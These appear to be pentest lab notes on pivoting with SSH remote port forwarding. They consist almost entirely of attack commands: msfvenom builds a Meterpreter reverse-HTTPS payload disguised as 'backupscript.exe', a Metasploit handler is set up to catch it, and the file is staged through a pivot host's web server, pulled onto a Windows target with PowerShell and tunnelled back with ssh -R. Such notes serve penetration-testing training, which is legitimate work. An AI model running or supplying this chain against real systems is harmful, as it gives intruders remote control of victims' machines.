


### Creating a Windows Payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configuring & Starting the multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

### Transferring Payload to Pivot Host

```bash
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

### Starting Python3 Webserver on Pivot Host

```bash
python3 -m http.server 8123
```

### Downloading Payload on the Windows Target

```bash
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### Using SSH -R

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

